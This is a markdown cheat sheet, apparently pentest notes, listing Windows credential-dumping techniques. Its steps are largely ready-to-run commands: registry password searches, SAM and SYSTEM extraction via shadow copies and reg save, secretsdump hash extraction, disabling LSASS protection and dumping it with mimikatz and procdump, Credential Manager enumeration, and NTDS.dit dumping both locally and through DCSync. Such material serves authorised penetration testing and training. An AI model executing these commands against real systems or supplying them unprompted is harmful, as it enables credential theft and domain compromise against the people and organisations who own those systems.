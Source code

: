 # 1-Find Clear-Text Files:
- **Powershell History**:
```
Path: C:\<UserName>\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Registry: find password keyword**:
```
c:\Users\user> reg query HKLM /f password /t REG_SZ /s
C:\Users\user> reg query HKCU /f password /t REG_SZ /s
```
- **Also look for:**
  - Database Files
  - Memory Dump
  - Active Directory.Users' description
  - Network Sniffing

# 2-Key Logging

# 3-SAM Database:
  - Path: c:\Windows\System32\config\sam
  - we can not read it and copy it
  - SAM database is encrypted either with RC4 or AES.we need a decryption key which is also stored in the files system in **c:\Windows\System32\Config\system** 
    ### how to Dump:
    - 1-MetaSploit.hashdump
    - 2-Microsoft Volume shadow copy:
        ```
        wmic shadowcopy call create Volume='C:\'
        #find where it is stored
        vssadmin list shadows
        copy \\path\to\volume\sam  \\somewhere-Else
        copy \\path\to\volume\\system \\soemwhere-Else
        ```
# 4-Registry Hives:
```
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
#Extract
secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```

# 5-Dump LSASS(cached credentials):
  - **Protected LSASS**:
    - disable from Registry:
    ```
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    ```
    - disable with mimikatz:
    ```
    mimikatz # !+
    mimikatz # !processprotect /process:lsass.exe /remove
    ```

  - 5.1-Using GUI with Task-Manager
  - 5.2-Using procdump
  ```
  procdump.exe -accepteula -ma lsass.exe c:\<somewhere>
  ```
  - 5.3-mimikatz
  ```
  mimikatz # sekurlsa::logonpasswords
  ```
  
# 6-Windows Credential Manager:
  - Stored Credentials in system:
  ```
  vaultcmd /list
  VaultCmd /listproperties:"Web Credentials"
  VaultCmd /listcreds:"Web Credentials"
  VaultCmd /listproperties:"Windows Credentials"
  VaultCmd /listcreds:"Windows Credentials"
  cmdkey /list
  runas /savecred /user:<Domain>\Username cmd.exe
  mimikatz # sekurlsa::credman
  ```
    - The VaultCmd is not able to show the password. we can use this tools [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)
      ```
      Import-Module C:\Tools\Get-WebCredentials.ps1
      Get-WebCredentials
      ```
# 7-NTDS:
  - **Local**:
    - we need the following files:
        - C:\Windows\NTDS\ntds.dit
        - C:\Windows\System32\config\SYSTEM
        - C:\Windows\System32\config\SECURITY
    - with Powershell:
    ```
    #Dump
    powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
    #Extract
    secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
    ```
  - **Remote(DCSync)**:
    ```
    #dump NTDS
    lsadump::dcsync /domain:<DomainName> /all
    #Extract just NTDS data
    secretsdump.py -just-dc <DomainName>/<AD_Admin_User>@MACHINE_IP 
    #Extract NTLM hashes
    secretsdump.py -just-dc-ntlm <DomainName>/<AD_Admin_User>@MACHINE_IP
    ```
